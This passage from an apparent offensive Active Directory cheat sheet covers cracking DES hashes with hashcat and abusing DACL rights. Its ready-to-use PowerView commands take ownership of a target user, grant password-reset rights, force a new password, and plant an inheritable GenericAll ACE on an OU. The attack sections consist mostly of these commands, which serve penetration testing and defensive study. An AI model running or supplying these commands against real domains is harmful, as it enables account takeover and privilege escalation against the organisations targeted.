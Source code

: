 With **john** or **hashcat** it could be performed.

In case of DES hash, here is the command:

```bash
hashcat -a 3 -m 14000 <DES_hash> -1 charsets/DES_full.charset --hex-charset ?1?1?1?1?1?1?1?1
```

### DACLs attacks

#### DACLs packages

* **Owns object**
  * WriteDacl
* **GenericAll**
  * GenericWrite
  * AllExtendedRights
  * WriteOwner
* **GenericWrite**
  * Self
  * WriteProperty
* **AllExtendedRights**
  * User-Force-Change-Password
  * DS-Replication-Get-Changes
  * DS-Replication-Get-Changes-All
  * DS-Replication-Get-Changes-In-Filtered-Set

#### On any objects

**WriteOwner**

With this rights on a user it is possible to become the "owner" (**Grant Ownership**) of the account and then change our ACLs against it

```powershell
Set-DomainObjectOwner -Identity <target> -OwnerIdentity user1 -verbose
Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights ResetPassword

#And change the password
$cred = ConvertTo-SecureString "Password123!" -AsPlainText -force                  
Set-DomainUserPassword -Identity <target> -accountpassword $cred
```

**WriteDacl**

With this rights we can modify our ACLs against the target, and give us **GenericAll** for example

```powershell
Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights All
```

In case where you have the right against a container or an OU, it is possible to setup the **Inheritance** flag in the ACE. The child objects will inherite the parent container/OU ACE (except if the object has `AdminCount=1`)

```powershell
$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity user1 -Right ExtendedRight,ReadProperty,GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
$OU = Get-DomainOU -Raw <OU_name>

$dsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```
